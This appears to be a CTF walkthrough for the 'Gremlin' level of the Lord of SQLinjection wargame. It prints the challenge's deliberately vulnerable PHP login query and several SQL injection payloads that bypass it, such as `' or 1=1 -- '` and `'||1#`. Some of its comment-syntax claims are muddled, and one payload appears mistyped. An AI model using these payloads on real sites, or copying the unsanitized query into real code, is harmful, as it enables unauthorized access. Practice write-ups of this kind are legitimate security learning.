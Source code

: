 # **1.Gremlin**

Let's get to this challenge by search `Lord of SQLinjection`.

If you can't find it, try the url below:
[los.eagle-jump](https://los.eagle-jump.org/)

It seems the child CTF web site of **Stereotyped Challenges**, but more eazier(?), perhaps that......

![](https://i.imgur.com/4m2s13Q.png)

First, this is start page, sign up and login.

![](https://i.imgur.com/053mwSv.png)

After you login, you'll redirect to this page.

Press the first monster, Gremlin.

Then you'll find source code below.

```
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?> 
```

Make `$query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";` be `True` from return error, then you'll pass it.

For this kind of SQL question, that's use the basic startup the try it, `' or 1=1 --`.

However, it failed.

This is the Basic question, we just like living in the world of "[Goblin Slayer](https://en.wikipedia.org/wiki/Goblin_Slayer)".

The weaker, the trickier.

The bug always to be comma missing, LOL.

Here is the thing, I found that command symbols between SQL and MySQL are a little bit different from each others.

In [SQL](https://docs.microsoft.com/zh-tw/sql/t-sql/language-elements/comment-transact-sql), it use `--%20`, two minus with one space.

But in [MySQL](https://dev.mysql.com/doc/refman/5.7/en/mysqldump-sql-format.html), it just use two minus, `--`.

And there's one more thing should be noticed, the space without quot, `'`, it will be ignored while during transaction.

So, to this question, the payload should be 
```
?id=%27or%201=1%20--%20%27
```
```
?id='or 1=1 -- '
```
```
?id=%27||1%23
```
```
?id=`||1#
```

![](https://i.imgur.com/aLHNXax.png)

Append it to the url, then you pass it.

※Old version **Hackbar** is down now, please get a new  alternaives.

